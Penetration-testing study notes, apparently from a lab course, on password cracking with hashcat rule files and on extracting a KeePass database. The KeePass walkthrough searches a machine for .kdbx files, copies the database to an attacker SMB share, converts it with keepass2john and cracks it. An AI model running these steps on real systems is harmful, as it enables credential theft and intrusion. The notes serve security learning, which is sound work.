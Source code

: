 
##### Mutating Wordlists
- Password complexity scales cracking time polynomialy 
- Password length scales cracking time exponentially
- Hashcat has cracking benchmarks for each algorithm (hashcat -b)
- Rule-based attack = password brute force with mutated word list
	- Hashcat allows .rule files for mutation
		- each line in a .rule specifies a different variation to be used

Steps:
1. create .rule file
	1. be sure to \ escape special characters (example appends 1, and ! and capitalizes the first letter, then adds second variation with 1 and ! switched)
2. crack with hashcat

```
1. echo "$1 c $!" > attack.rule
1.1 echo "$! c $1" >> attack.rule

2. hashcat -m 0 <hashfile> /usr/share/wordlists/rockyou.txt -r attack.rule --force
``` 


##### Password Managers
- can crack if you obtain the master password hash
	- usually contained in password file on the machine (use google to find file format)

Steps:
1. RDP to the machine
2. Search for the password manager password hash (use google to find file extension)
3. Pull the password hash back to attack box
4. Convert to usable format
	1. Use ssh2john or keepass2john and take out unessecary strings
5. Find password manager hashtype for hashcat
6. Crack 

```
1. xfreerdp /v:192.168.122.203 /u:jason /p:lab /w:1200 /h:700

2. PS> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

3. PS> copy .\Database.kdbx \\<kali_ip>\share\databse.kdbx

4. keepass2john Database.kdbx > keepass.hash

4.1 cat keepass.hash (take out Database: at start)

5. hashcat --help | grep -i "KeePass"

6. hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


##### Cracking SSH Private Keys
- Usually need to discover id_rsa keys and pull to attack box
